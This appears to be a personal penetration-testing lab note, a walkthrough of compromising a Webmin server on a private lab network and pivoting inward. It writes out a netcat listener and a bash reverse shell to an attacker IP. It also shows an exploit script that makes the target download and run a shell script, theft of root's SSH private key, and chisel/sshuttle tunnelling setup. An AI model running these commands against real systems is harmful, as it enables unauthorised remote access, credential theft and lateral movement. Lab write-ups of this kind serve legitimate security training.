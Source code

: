 ```yaml
---

---
```

- **Got RCE on port 10000 (Webmin, See [[10.200.81.200]])**
- Let's get a **shell**:
	- After trying multiple shells, **`bash` shell worked**
	- `nc -lnvp 9002`
	- `/bin/bash -i >& /dev/tcp/10.50.55.136/9002 0>&1` > shell.sh
	- `python3 -m http.server`
	- `python3 webmin_exploit.py 10.200.57.200 10000 'curl 10.50.55.136:8000/bash_shell.sh -o shell.sh'
	- `python3 webmin_exploit.py 10.200.57.200 10000 'bash shell.sh'`
	- ![[Pasted image 20250402162403.png]]
# Getting id_rsa
---
- Since `ssh` was enabled, we can get the **private key of root user for a better shell**:
- ![[Pasted image 20250402162918.png]]
- Copy it in a file
- `chmod 600 prod_root_id_rsa.pem `
- `ssh root@10.200.81.200 -i prod_root_id_rsa.pem `
- 

Some **possible useful information** found in `anaconda-ls.cfg` in `/root` directory: 
![[Pasted image 20250402163335.png]]

# Setup chisel, proxychains and sshuttle
---
- On prod server:
	- `./chisel_1.7.3_linux_amd6 client --fingerprint HB41FfM28HLUFZlrvRhBHxvIHDacoolHczCOU3Sx+7I= 10.200.81.200:9999 R:socks`
- On kali:
	- `chisel server --socks5 --reverse -p 9999`
- Add **foxyproxy ip**
	- ![[Pasted image 20250404121940.png]]
- `sshuttle -r root@10.200.81.200 10.200.81.0/24 --ssh-cmd "ssh -i prod_root_id_rsa.pem" -x 10.200.81.200` => **For direct access**

# Finding internal IPs
---
- Transfer the `nmap` binary and run `-sn` scan for IPs only
	- ![[Pasted image 20250403121821.png]]